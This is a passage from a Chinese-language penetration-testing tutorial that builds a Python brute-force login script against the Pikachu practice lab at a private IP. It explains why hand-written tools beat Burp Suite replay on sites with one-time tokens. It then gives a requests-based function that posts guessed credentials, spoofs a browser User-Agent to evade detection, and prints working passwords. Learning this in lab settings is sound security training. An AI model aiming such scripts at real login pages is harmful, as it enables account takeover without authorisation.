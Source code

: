 为什么不使用 `Burpsuite` 进行爆破，不是更方便吗？还不用写工具。在实际的网站渗透中时常会遇见一些安全意识较高的厂商

他们会对数据包中加入一些 `session` 随后在其中加入时间戳这个关键数据。再使用js加密后生成的一串不起眼的数字。从而导致一个数据包只能用一次，无法反复利用。在 `Burpsuite` 的重放模块就会直接显示不可重放等。从而隔绝了通过固定的一个数据包导致的爆破。



```python
import requests				# 导入请求模块


def login_bp(user, pwd):	# 创建一个函数用于处理登录请求
    url = 'http://192.168.245.151/pikachu/vul/burteforce/bf_form.php'		# 登录请求接口
    header = {
        'Content-Type': 'application/x-www-form-urlencoded',	# 请求头代表这是一次post传参
        'User-Agent': 'Mozilla / 5.0(Windows NT 10.0;Win64;x64) AppleWebKit / 537.36(KHTML, likeGecko) Chrome / 118.0.0.0Safari / 537.36Edg / 118.0.2088.76'		   # 请求头，加上当前的浏览器数据防止被检测
    }

    proxy = {
        'http': 'http://127.0.0.1:8080',			# 挂上bp代理监听，查看数据包的情况
        'https': 'http://127.0.0.1:8080'
    }

    data = {					# 请求主题，包含了账号密码以及提交3个参数
        'username': user,		# josn的数据类型格式键值对，右边的是可变的变量代表我们将要爆破的参数
        'password': pwd,
        'submit': 'Login'
    }

    res = requests.post(url=url, headers=header, data=data, proxies=proxy, verify=False)	
    #最后开始请求，以post的方式请求，跟上以上参数，verify的意思是忽略证书问题
    if 'success' in res.text:		# 检测是否爆破成功，爆破成功之后返回的数据包里会包含success这个字符串
        print(user, '->', pwd)		# 判断当前存在这个字符串则自动输出最终爆破成功的账号密码
        exit(0)

login_bp('admin', '123456')			# 函数实参传递，为后续的爆破以及多线程做铺垫
```

以上代码可以进行一次简单的账号密码登录请求，def函数里的就是爆破模块，现在要在外面写上线程以及导入我们的账号密码



